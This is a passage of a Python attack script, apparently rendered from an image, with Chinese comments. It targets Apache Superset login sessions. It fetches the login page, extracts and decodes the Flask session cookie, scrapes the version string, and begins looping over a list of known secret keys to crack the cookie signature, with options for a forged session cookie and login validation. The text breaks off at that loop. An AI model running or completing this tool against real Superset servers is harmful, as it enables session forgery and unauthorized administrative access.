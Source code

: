 ```python
    parser.add_argument(
        "--validate", "-v", help="Validate login", required=False, action="store_true"
    )
    parser.add_argument(
        "--timeout",
        "-t",
        help="Time to wait before using forged session cookie, default=5s",
        required=False,
        type=int,
        default=5,
    )
    args = parser.parse_args()

    # 尝试访问目标URL的登录页面，并获取返回的session cookie。如果没有获取到session cookie或者session cookie不是Flask类型的，则打印错误信息并退出。
    try:
        u = args.url.rstrip("/") + "/login/"

        headers = {
            "User-Agent": "Mozilla/5.0 (Macintosh; Intel Mac OS X 10.15; rv:101.0) Gecko/20100101 Firefox/101.0"
        }

        resp = requests.get(
            u, headers=headers, verify=False, timeout=30, allow_redirects=False
        )
        if resp.status_code != 200:
            print(
                f"Error retrieving login page at {u}, status code: {resp.status_code}"
            )
            return

        session_cookie = None
        for c in resp.cookies:
            if c.name == "session":
                session_cookie = c.value
                break

        if not session_cookie:
            print("Error: No session cookie found")
            return

        print(f"Got session cookie: {session_cookie}")

        # 尝试解码session cookie，并打印出来。同时，尝试从返回的页面中匹配出Superset的版本号，并打印出来。
        try:
            decoded = session.decode(session_cookie)
            print(f"Decoded session cookie: {decoded}")
        except:
            print("Error: Not a Flask session cookie")
            return

        match = re.search(r"&#34;version_string&#34;: &#34;(.*?)&#34", resp.text)
        if match:
            version = match.group(1)
        else:
            version = "Unknown"

        print(f"Superset Version: {version}")

        # 遍历SECRET_KEYS列表中的每一个密钥，尝试用flask_unsign模块的verify函数来验证session cookie是否可以被破解。如果可以，则打印出成功破解的信息和使用的密钥，并跳出循环。如果不可以，则打印出失败破解的信息并退出。
        for i, k in enumerate(SECRET_KEYS):
```